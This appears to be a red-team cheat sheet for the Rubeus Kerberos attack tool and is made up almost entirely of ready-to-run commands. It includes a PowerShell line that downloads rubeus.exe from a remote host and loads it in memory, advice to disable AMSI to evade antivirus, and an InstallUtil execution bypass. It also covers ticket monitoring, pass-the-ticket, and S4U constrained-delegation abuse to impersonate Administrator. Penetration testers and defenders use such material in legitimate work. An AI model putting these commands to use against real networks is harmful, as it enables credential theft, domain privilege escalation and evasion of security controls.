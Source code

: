 # Rubeus

## Assembly Reflection

{% hint style="info" %}
Can be used to evade AV.

Disable AMSI, load the exe as Assembly and invoke the methods.
{% endhint %}

* Load the assembly using Reflection

```csharp
$ass = (new-object net.webclient).DownloadData('http://10.110.0.66/tools/rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($ass)
```

```csharp
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /cmd="monitor" /args="/interval:5 /filteruser:DC$" .\StandRubeus.dll
```

* Invoke a function

```csharp
[Rubeus.Program]::Main("purge".Split())
```

![](../../../../.gitbook/assets/image%20%2839%29.png)

* Request a TGS \(Constrained Delegation\)

```csharp
[Rubeus.Program]::Main("s4u /user:server01 /rc4:sdsafgsa08ac2d2sad5988cbsda /impersonateuser:Administrator /msdsspn:cifs/server02 /ptt".Split())
```

```text
 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile=  /cmd="hash" /args="/password:polo" .\StandRubeus.dll
```

## Monitor for TGT

```text
rubeus.exe monitor /interval:5 /filteruser:<machine account$ or username>
```

## Inject Ticket

```csharp
.\Rubeus.exe asktgt /user:iissvc /domain:test.lab.local /rc4:FC525C9683E8FE067095BA2DDC971889
rubeus.exe ptt /ticket:Base64_ticket_here
```

## Constrained Delegation

### Create hash from password

```csharp
 .\Rubeus.exe hash /password:Passw0rd!
```

### Ask a TGT

```csharp
.\Rubeus.exe asktgt /user:iissvc /domain:test.lab.local /rc4:FC525C9683E8FE067095BA2DDC971889
```

### S4U

```text
 .\Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:mssqlsvc/test.lab.local:1433 /ptt /ticket:doIE+jCCBPdsakljdkslad/lakdlsa
```

{% hint style="info" %}
altservice can also be used to the command if /msdsspn is **www.**

**/altservice:CIFS /ptt /ticket:xxxxxxxx**
{% endhint %}



